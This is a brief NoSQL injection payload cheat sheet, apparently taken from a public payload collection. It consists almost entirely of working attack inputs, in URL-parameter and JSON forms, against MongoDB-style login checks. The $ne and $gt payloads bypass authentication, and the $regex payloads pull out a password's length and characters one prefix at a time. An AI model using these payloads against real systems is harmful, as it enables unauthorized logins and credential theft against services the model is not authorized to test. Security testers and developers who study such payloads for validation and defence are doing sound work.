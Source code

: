 # NoSQLInjection

## Exploit
Basic authentication bypass using not equal ($ne) or greater ($gt)
```
in URL
username[$ne]=toto&password[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
Extract length information
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
Extract data information

in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

# References:
- 
-
